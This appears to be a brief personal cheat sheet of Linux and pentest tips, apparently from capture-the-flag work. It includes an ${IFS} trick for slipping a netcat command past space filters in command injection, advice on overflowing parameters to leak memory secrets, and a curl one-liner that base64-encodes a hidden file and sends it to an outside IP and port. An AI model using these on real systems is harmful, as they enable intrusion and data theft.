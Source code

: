 # Linux
space bash

`${IFS}` is a space delimiter for when you can't use a space in your rce command, so you can do `nc${IFS}<ip>${IFS}<port>`

If you have any parameters(that can be modified as in a web request), try overflowing the value(size) by specifying a very large size to see if there is any memory leak,(you might need to change memory size to get a memory leak with useful data) but a large enough one might work too and give some internal useful data like headers/secrets.

To get date in epoch format, use `date '+%s'`

to find duplicates in a file, use: `sort rooms.txt | uniq -cd`

To exfill data from the command line, use:

```text-plain
cat /home/dante/Downloads/.download.dat | base64 -w0 | xargs -I T curl 10.10.126.249:4444/?x=T
```